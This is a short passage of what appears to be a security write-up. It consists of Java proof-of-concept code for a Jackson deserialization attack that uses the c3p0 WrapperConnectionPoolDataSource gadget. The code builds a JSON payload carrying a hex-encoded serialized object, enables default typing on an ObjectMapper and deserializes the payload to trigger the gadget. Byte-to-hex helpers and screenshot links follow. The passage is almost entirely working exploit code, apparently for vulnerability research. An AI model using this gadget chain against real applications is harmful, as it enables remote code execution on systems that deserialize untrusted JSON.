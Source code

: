 ```java
        String poc = "{\"object\":[\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",{\"userOverridesAsString\":\"HexAsciiSerializedMap:"+ HexString + ";\"}]}";

        System.out.println(poc);
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc, Person.class);
    }

    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);
        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
}
```

![image-20211122214024710](img/image-20211122214024710.png)

![image-20211122223517489](img/image-20211122223517489.png)

